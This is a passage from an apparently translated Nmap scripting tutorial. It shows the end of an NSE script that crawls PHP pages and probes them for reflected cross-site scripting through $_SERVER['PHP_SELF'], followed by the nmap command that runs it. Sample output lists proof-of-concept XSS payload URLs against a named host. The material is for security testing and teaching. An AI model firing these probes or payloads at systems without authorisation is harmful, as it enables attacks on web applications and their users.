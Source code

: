         local parsed = url.parse(tostring(r.url))

        --Only work with .php files
        if ( parsed.path and parsed.path:match(".*.php") ) then
            --The following port/scheme code was seen in http-backup-finder and its neat =)
            local host, port = parsed.host, parsed.port
            if ( not(port) ) then
              port = (parsed.scheme == 'https') and 443
              port = port or ((parsed.scheme == 'http') and 80)
            end
            local escaped_link = parsed.path:gsub(" ", "%%20")
            if launch_probe(host,port,escaped_link) then
              table.insert(vulnpages, parsed.scheme..'://'..host..escaped_link..PHP_SELF_PROBE)
            end
          end
      end

      if ( #vulnpages > 0 ) then
        vuln.state = vulns.STATE.EXPLOIT
        vulnpages.name = "Vulnerable files with proof of concept:"
        vuln.extra_info = stdnse.format_output(true, vulnpages)..crawler:getLimitations()
      end

      return vuln_report:make_output(vuln)

    end
    ```

    要运行脚本，请使用以下命令：

    ```
    $ nmap -p80 --script http-phpself-xss.nse <target>

    ```

    如果 PHP 文件易受通过`$_SERVER["PHP_SELF"]`注入的跨站点脚本攻击，则输出将如下所示：

    ```
    PORT   STATE SERVICE REASON
    80/tcp open  http    syn-ack
     http-phpself-xss:
       VULNERABLE:
       Unsafe use of $_SERVER["PHP_SELF"] in PHP files
         State: VULNERABLE (Exploitable)
         Description:
           PHP files are not handling safely the variable $_SERVER["PHP_SELF"] causing Reflected Cross Site Scripting vulnerabilities.

         Extra information:

       Vulnerable files with proof of concept:
         http://calder0n.com/sillyapp/three.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
         http://calder0n.com/sillyapp/secret/2.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
         http://calder0n.com/sillyapp/1.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
         http://calder0n.com/sillyapp/secret/1.php/%27%22/%3E%3Cscript%3Ealert(1)%3C/script%3E
       Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=calder0n.com
         References:
           https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
          http://php.net/manual/en/reserved.variables.server.php
    ```
